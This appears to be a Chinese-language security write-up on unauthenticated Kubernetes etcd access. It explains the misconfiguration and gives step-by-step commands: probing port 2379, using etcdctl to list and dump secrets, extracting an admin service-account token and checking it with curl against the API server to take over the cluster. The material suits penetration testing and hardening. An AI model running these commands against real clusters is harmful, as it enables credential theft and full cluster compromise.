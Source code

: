 # Kubernetes etcd 未授权访问

## 漏洞描述

etcd 是云原生架构中重要的基础组件。etcd 在微服务和 Kubernates 集群中不仅可以作为服务注册于发现，还可以作为 key-value 存储的中间件，为 k8s 集群提供底层数据存储，保存了整个集群的状态。

在 K8s 集群初始化后，etcd 默认就以 pod 的形式存在，可以执行如下命令进行查看，etcd 组件监听的端口为 2379，并且对外开放。

```
kubectl get pods -A | grep etcd
```

在 etcd 的配置文件 /etc/kubernetes/manifests/etcd.yaml 中，--client-cert-auth 默认为 true，这意味着访问 etcd 服务需要携带 cert 进行认证。

如果目标在启动 etcd 的时候没有开启证书认证选项，且 2379 端口直接对外开放的话，则存在 etcd 未授权访问漏洞。

etcdctl 下载地址：https://github.com/etcd-io/etcd

## 漏洞复现

### 查看是否存在未授权访问

访问以下链接，查看是否存在未授权访问。

```
https://your-ip:2379/version
-------------
返回如下则存在未授权访问：
{etcdserver: "3.4.3", etcdcluster: "3.4.0"} 
```

```
https://your-ip:2379/v2/keys
-------------
返回如下则存在未授权访问：
{"action":"get","node":{"dir":true,"nodes":...}}
```

### 查找 Token 接管集群

由于 Service Account 关联了一套凭证，存储在 Secret 中。因此我们可以过滤 Secret，查找具有高权限的 Secret，然后获得其 token 接管 K8s 集群。

```
#查找所有的 secret
./etcdctl --insecure-transport=false --insecure-skip-tls-verify --endpoints=https://your-ip:2379/ get / --prefix --keys-only|sort|uniq| grep secret
```

以 `/registry/secrets/kube-system/dashboard-admin-token-c7spp` 为例，查看指定 secret 保存的证书和 token：

```
#查找指定 secret 保存的证书和 token
./etcdctl --insecure-transport=false --insecure-skip-tls-verify --endpoints=https://your-ip:2379/ get /registry/secrets/kube-system/dashboard-admin-token-c7spp
```

最终的 token 为 `token?` 和 `\#kubernetes.io/service-account-token` 之间的部分。可以使用 curl 验证 token 的有效性：

```
curl --header "Authorization: Token" -X GET https://your-ip:6443/api -k
```

然后，就可以使用 token 登录 dashboard 或者远程命令管理 K8s。
